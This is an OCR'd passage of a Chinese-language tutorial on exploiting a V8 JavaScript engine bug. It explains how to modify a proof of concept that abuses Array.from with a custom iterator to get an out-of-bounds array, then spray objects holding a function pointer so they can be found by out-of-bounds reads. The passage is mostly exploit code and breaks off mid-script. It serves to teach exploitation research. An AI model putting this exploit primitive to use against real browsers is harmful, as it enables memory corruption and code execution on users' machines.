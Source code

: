![IMAGE](/assets/resources/FDE6A78FF2BD3FCDE4E694A21DBB9F10.jpg)

那么我们知道内存里有一个可以越界读写的数组，那么这个数组能读写到哪些东西呢？

我们来做个测试，如下我们修改Poc，在最前面定义一个数组对象`objs`，同时为了防止我们的`oobArray`被回收掉，将长度改为`5`，并且在迭代结束之后往`objs`加100个对象，每个对象里面写上我们要泄漏的数据，然后利用越界读去暴搜，这里我们将要泄漏的对象写为函数指针
```javascript
function func_to_overwrite() {
    let sum = 0;
    for (let i = 0;i < 0x100; i++) {
        sum += i;
    }
    return sum;
}

for (let i = 0; i < 1000; i++) {
    func_to_overwrite();
}

console.log("======> func_to_overwrite");
%DebugPrint(func_to_overwrite);

let maxSize = 1024 * 8;
let objs = [];
let oobArray = [1.1];
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
    {
        counter : 0,
        next() {
            let result = this.counter++;
            if (this.counter == maxSize) {
                oobArray.length = 5;
                for (let i = 0; i < 100; i++) {
                    let obj = {'a': 0x4321, 'b': func_to_overwrite};
                    objs.push(obj);
                }
                return {done: true};
            } else {
                return {value: result, done: false};
            }
```